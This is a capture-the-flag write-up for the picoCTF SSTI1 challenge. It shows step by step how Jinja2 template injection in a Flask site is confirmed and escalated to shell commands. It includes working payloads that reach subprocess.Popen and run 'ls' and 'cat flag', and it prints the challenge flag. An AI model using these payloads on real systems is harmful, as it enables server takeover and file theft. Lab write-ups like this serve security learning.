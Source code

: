 ### SSTI1

### **Writeup - SSTI1 (Server-Side Template Injection) 🚀**

### **📌 Challenge Name:** SSTI1

### **📌 Category:** Web Exploitation

### **📌 Description:**

> "I made a cool website where you can announce whatever you want! Try it out!"
> 

🔹 The challenge hint suggests **Server-Side Template Injection (SSTI)** vulnerability.

🔹 The goal is to **exploit SSTI** to gain access to sensitive files and retrieve the **flag**.

---

## **🔍 Step 1: Identifying SSTI Vulnerability**

To check if the website is vulnerable to SSTI, I tested the following payload:

```
{{7*7}}

```

✅ **Result:** `49`

➡ This confirms that the website **executes template expressions**, indicating an SSTI vulnerability.

---

## **🔍 Step 2: Identifying the Template Engine**

To determine which template engine is being used, I injected:

```
{{ config }}

```

✅ **Result:** A Flask configuration dictionary appeared, confirming the use of **Jinja2 (Python)**.

---

## **🔥 Step 3: Exploring Available Objects**

Since Jinja2 allows access to Python objects, I tried to enumerate them:

```
{{ ''.__class__.__mro__[1].__subclasses__() }}

```

✅ **Result:** A long list of available classes, including **subprocess.Popen**, which allows command execution.

📌 **Goal:** Find the index of `subprocess.Popen` to execute system commands.

---

## **🚀 Step 4: Finding `subprocess.Popen` Index**

By iterating through the list, I located `subprocess.Popen` at index `356`:

```
{{ ''.__class__.__mro__[1].__subclasses__()[356] }}

```

✅ **Result:**

```
<class 'subprocess.Popen'>

```

📌 Now, I can **execute commands on the server!**

---

## **🔥 Step 5: Listing Files on the Server**

Using `subprocess.Popen`, I executed the `ls` command to check the available files:

```
{{ ''.__class__.__mro__[1].__subclasses__()[356]('ls', shell=True, stdout=-1).communicate() }}

```

✅ **Result:**

```
(b'__pycache__\napp.py\nflag\nrequirements.txt\n', None)

```

📌 The **`flag`** file is present!

---

## **🚀 Step 6: Reading the Flag File**

Now, I used the `cat` command to read the contents of `flag`:

```
{{ ''.__class__.__mro__[1].__subclasses__()[356]('cat flag', shell=True, stdout=-1).communicate() }}

```

✅ **Result:**

```
(b'picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_bd4cfc64}', None)

```

🎉 **Flag Found!**

---

## **🏆 Final Flag**

```
picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_bd4cfc64}

